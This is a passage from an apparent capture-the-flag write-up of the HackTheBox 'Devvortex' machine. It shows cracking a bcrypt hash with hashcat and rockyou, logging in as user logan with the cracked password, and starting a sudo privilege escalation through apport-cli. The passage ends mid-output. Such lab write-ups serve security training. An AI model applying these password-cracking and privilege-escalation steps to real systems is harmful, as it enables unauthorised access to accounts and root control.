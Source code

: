 ```bash
$ hashid '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'
Analyzing '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
$ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```
Password for `logan`user is `tequieromucho`.
After that become `logan`user and read the `user.txt`:
```bash
su logan
Password: tequieromucho
logan@devvortex:/var/www/dev.devvortex.htb$ cat /home/logan/user.txt
cat /home/logan/user.txt
cc29aa85aa57d20bae0aaf6992c77bbb
```
***
User Flag: `cc29aa85aa57d20bae0aaf6992c77bbb`
***
Then learn what you can do with `root's permission`:
```bash
sudo -l
[sudo] password for logan: tequieromucho

Matching Defaults entries for logan on devvortex:
   env_reset, mail_badpass,
 secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
  (ALL : ALL) /usr/bin/apport-cli
```
With version of `apport-cli`maybe we can do `privilege escalation`:
```bash
/usr/bin/apport-cli --version
2.20.11
```
After bit of searching i decided to read `walktrough`because i didn't understand `shit`and i got this.
```bash
ps -ux
logan       1774  0.0  0.2  19044  9644 ?        Ss   07:40   0:00 /lib/systemd/
# take the PID and use it for privilege escalation
sudo /usr/bin/apport-cli -f -P 1774
*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
......
*** It seems you have modified the contents of "/etc/systemd/journald.conf".  Would you like to add the contents of it to your bug report?


What would you like to do? Your options are:
  Y: Yes
  N: No
  C: Cancel
Please choose (Y/N/C): y
y^J

*** It seems you have modified the contents of "/etc/systemd/resolved.conf".  Would you like to add the contents of it to your bug report?

```

[CVE-2023-23752]: 1